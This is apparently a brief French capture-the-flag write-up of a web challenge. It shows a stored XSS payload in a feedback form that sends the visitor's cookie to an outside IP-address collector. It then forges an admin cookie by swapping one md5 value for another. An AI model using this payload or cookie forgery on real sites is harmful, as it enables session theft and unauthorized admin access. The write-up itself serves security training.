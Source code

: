 En inspectant la page on voit que le serveur check juste que les inputs ne soient pas vide
Il nous suffit alors de modifier la longueur des inputs pour pouvoir y placer des scripts Js/Html/Php.
Dans la section 'feedback':

Le second champ n'execute pas le code, par contre le premier champ n'est pas protegé on y ajoute donc notre script

<img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>

Resultat : http://46.101.40.236:3000/get_cookie_xss.php?cookie=I_am_admin=68934a3e9455fa72420237eb05902327

On check le type de hashage avec https://md5hashing.net/hash_type_checker/ 
On voit que c'est du md5, et que sa valeur est false;

Ensuite on ouvre la console et on set une nouvelle valeur au cookie :  document.cookie="I_am_admin=b326b5062b2f0e69046810717534cb09"
On refresh la page

